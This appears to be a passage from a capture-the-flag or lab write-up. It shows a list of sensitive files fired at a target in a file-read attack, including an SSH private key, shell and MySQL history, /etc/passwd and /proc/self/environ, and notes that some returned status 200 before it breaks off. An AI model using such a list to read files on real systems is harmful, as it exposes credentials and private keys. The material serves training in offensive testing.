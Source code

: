 ```bash
/home/everest/.bash_history
/home/everest/.ssh/id_rsa
/home/everest/.ssh/authorized_keys
/etc/mysql/my.cnf
/root/.mysql_history
/etc/crontab
/etc/cron.d/php
/etc/cron.d/root
/var/spool/cron/crontabs/root
/etc/passwd
/etc/group
/etc/hosts
/etc/hostname
/etc/resolv.conf
/proc/self/environ
/proc/self/status
/proc/self/cmdline
```

After we send the attack, we can see some files get `200` status code:

![Pasted image 20250722171312.png](../../IMAGES/Pasted%20image%2020250722171312.png)


If we check `/etc/nginx/sites-available/default`, we can find this:

